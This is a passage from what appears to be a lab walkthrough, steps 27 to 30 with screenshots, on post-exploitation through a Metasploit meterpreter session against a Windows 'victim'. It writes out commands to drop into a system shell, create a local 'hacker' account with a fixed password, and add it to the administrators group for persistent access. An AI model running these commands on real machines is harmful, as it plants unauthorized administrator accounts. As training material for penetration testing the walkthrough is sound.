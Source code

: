 Type in the following command in the meterpreter prompt: shell

<img width="327" alt="image" src="https://github.com/user-attachments/assets/397af922-9931-4416-a1f5-a61f9f283bc6" />

Result of step 27

28. To add an account.

Type in the following command into the system32 prompt: net user hacker P@ssw0rd /add

<img width="317" alt="image" src="https://github.com/user-attachments/assets/a324bcde-f414-44cf-9d20-ba74ba8668f7" />

Result of step 28

29. To add an account to the administrators group.

Type in the following command into the system32 prompt: net localgroup administrators hacker /add

<img width="386" alt="image" src="https://github.com/user-attachments/assets/195cba5f-3928-4b22-9f67-5af463e69570" />

Result of step 29

30. Type in the following command to exit twice to remove the connection to the command prompt and the victim: exit

<img width="431" alt="image" src="https://github.com/user-attachments/assets/85adf8c4-0893-4d45-a70f-28755d4fc0dd" />

Result of step 30
